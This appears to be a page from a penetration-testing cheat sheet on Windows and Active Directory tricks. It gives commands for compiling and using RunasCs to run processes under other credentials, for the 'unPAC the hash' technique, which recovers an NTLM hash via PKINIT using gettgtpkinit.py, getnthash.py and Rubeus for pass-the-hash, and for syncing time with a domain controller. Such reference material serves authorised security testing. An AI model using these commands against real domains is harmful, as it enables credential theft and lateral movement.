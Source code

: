```yaml
---
description: List of useful tricks and utility for Windows.
---
```


# Windows

### RunasCs

RunasCs is an utility to run specific processes with different permissions than the user's current logon provides using explicit credentials.

* https://github.com/antonioCoco/RunasCs

```powershell
# compile RunasCs on the target with the available .NET version
# NET4
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe -target:exe -optimize -out:RunasCs.exe RunasCs.cs

# NET2
C:\Windows\Microsoft.NET\Framework64\v2.0.50727\csc.exe -target:exe -optimize -out:RunasCs_net2.exe RunasCs.cs

# run command as another user
.\RunasCs.exe <user> <password> <command>
```

### Unpac hash

When using `PKINIT` to obtain a TGT, the KDC include NTLM hash. It can be recovered to do pass-the-hash.

```bash
# UNIX
gettgtpkinit.py -cert-pfx "PATH_TO_CERTIFICATE" -pfx-pass "CERTIFICATE_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
export KRB5CCNAME="TGT_CCACHE_FILE"
getnthash.py -key 'AS-REP encryption key' 'FQDN_DOMAIN'/'TARGET_SAMNAME'

# Windows
Rubeus.exe asktgt /getcredentials /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
```

> More information at [The Hacker Recipes](https://www.thehacker.recipes/ad/movement/kerberos/unpac-the-hash)

### Synchronising time with AD

```bash
# using ntpdate
sudo ntpdate -u <DC_IP>

# faketime
faketime '2023-12-20 02:13:00'

# net time
sudo net time set -S <DC_IP>
```
